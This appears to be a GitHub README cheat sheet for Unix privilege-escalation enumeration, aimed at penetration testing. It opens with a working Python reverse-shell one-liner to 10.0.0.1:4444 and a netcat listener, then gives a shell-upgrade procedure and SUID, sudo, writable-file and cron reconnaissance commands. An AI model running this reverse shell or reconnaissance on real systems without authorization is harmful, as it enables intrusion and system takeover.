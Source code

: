 # BASIC PRIVILEGE ESCALATION ENUMERATION
This document contains a list of useful commands for privilege escalation in Unix-like operating systems. These commands can help identify potential vectors for escalating privileges on a system.

## Python Reverse Shell & NC Listener

#### Python Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
#### Netcat listener
```
nc -nvlp 4444
```

## Spawing a TTY Shell
A TTY (teletypewriter) shell is a command-line interface that allows users to interact with the operating system through a terminal, enabling input and output of text commands and responses in a real-time, interactive session. It simulates the behavior of traditional teletypes, providing a way to execute commands and scripts in a Unix-like environment. There are a total 3 steps to spawning a successful TTY Shell:
- STEP-1: Run the command: `python3 -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better-featured bash shell. At this point, our shell will look a bit prettier, but we still won’t be able to use tab autocomplete or the arrow keys and Ctrl + C will still kill the shell.
- STEP-2: Run the command: `export TERM=xterm-256color` to get access to term commands such as `clear` (SHORTCUT IS `Ctrl + L`).
- STEP-3: Background the shell using `Ctrl + Z`, and back in our terminal, Run the command: `stty raw -echo; fg`.

The final command will do two things: first, it turns off our terminal echo (giving us access to tab autocompletes, the arrow keys, and `Ctrl + C` to kill processes). Secondly, It will foreground the shell, completing the process.

## Table of Contents
- [Finding SUID Files](#finding-suid-files)
- [Finding SGID Files](#finding-sgid-files)
- [Checking Sudo Permissions](#checking-sudo-permissions)
- [Finding Writable Files and Directories](#finding-writable-files-and-directories)
- [Finding Executables in PATH](#finding-executables-in-path)
- [Listing Scheduled Cron Jobs](#listing-scheduled-cron-jobs)
- [Checking User and Group Information](#checking-user-and-group-information)

### Finding SUID Files
- Finding the files with SUID (Set User ID) execution permissions of the file Owner which could be used to escalate privileges.
```
find / -perm -4000 -type f 2>/dev/null
```

### Finding SGID Files
- Finding the files with SGID (Set Group ID) execution permissions of the file Group which can also be a vector for privilege escalation.
```
find / -perm -2000 -type f 2>/dev/null
```

### Checking Sudo Permissions
- Finding out what SUDO privileges the current has (If any):
```
sudo -l
```

### Finding Writable Files and Directories
- Identifying files and directories writable by the user can help in various privilege escalation scenarios.

Writable Files
```
find / -writable -type f 2>/dev/null
```
Writable Directories
```
find / -writable -type d 2>/dev/null
```

### Finding Executables in PATH
- Finding executables in the PATH environment variable can help identify potentially exploitable scripts or binaries.
```
echo $PATH | tr ':' '\n' | xargs -I {} find {} -type f -executable 2>/dev/null
```

### Listing Scheduled Cron Jobs
- Viewing cron jobs can reveal scheduled tasks that may be leveraged for privilege escalation.
```
crontab -l && ls /var/spool/cron/crontabs && ls /etc/cron.*
```

### Checking User and Group Information
- Checking user and group details can provide insight into potential privilege escalation opportunities.

```
id
groups
```

## Notes
- Ensure you have proper authorization to run these commands on any system.
- Misuse of these commands can be illegal and unethical.
- Use these commands responsibly and in a controlled environment.

Feel free to modify or expand upon this template based on your needs. If you have any specific commands or sections you’d like to add, let me know!
